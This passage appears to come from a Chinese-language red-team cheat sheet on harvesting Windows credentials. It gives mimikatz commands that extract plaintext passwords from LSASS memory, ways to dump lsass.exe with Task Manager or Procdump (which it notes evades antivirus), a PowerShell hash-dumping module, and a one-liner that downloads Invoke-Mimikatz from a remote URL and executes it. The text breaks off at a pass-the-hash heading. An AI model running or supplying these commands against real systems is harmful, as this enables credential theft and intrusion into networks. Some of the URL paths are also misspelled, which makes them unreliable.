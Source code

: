 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>mimikatz.exe "privilege::debug" "log" "sekurlsa::loginpasswords" <br>``` |

##### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E7%A6%BB%E7%BA%BF%E8%AF%BB%E5%8F%96-lassdmp-%E6%96%87%E4%BB%B6)使用 mimikatz 离线读取 lass.dmp 文件

###### [](#%E5%AF%BC%E5%87%BA-lassdmp-%E6%96%87%E4%BB%B6)导出 lass.dmp 文件

-   使用任务管理器导出 lsass.dmp 文件

任务管理器找到 `lsass.exe` 进程，右键，选择“Create Dump File”选项

-   使用 Procdump 导出 lsass.dmp 文件

微软官方发布的工具，免杀

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>Procdump.exe -accepteula -ma lsass.exe lsass.dmp<br>``` |

###### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E5%AF%BC%E5%87%BA-lsassdmp-%E6%96%87%E4%BB%B6%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81%E5%80%BC)使用 mimikatz 导出 lsass.dmp 文件中的密码值

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>sekurlsa::mimidump lsass.dmp<br>sekurlsa::logonpasswords full<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E5%AF%B9%E6%95%A3%E5%88%97%E5%80%BC%E8%BF%9B%E8%A1%8C-dump-%E6%93%8D%E4%BD%9C)使用 Powershell 对散列值进行 Dump 操作

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>Import-Module .\Get-PassHashes.ps1<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-powershell-%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BD-mimikatz-%E6%8A%93%E5%8F%96%E6%95%A3%E5%88%97%E5%80%BC%E5%92%8C%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81)使用 Powershell 远程加载 mimikatz 抓取散列值和明文密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```powershell<br>powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PwoerSploit/master/Exfilration/Invoke-Mimikatz.ps1');Invoke-Mimikatz"<br>``` |

## [](#%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92%E6%94%BB%E5%87%BB)哈希传递攻击

### [](#%E4%BD%BF%E7%94%A8-ntlm-hash-%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 NTLM Hash 进行哈希传递
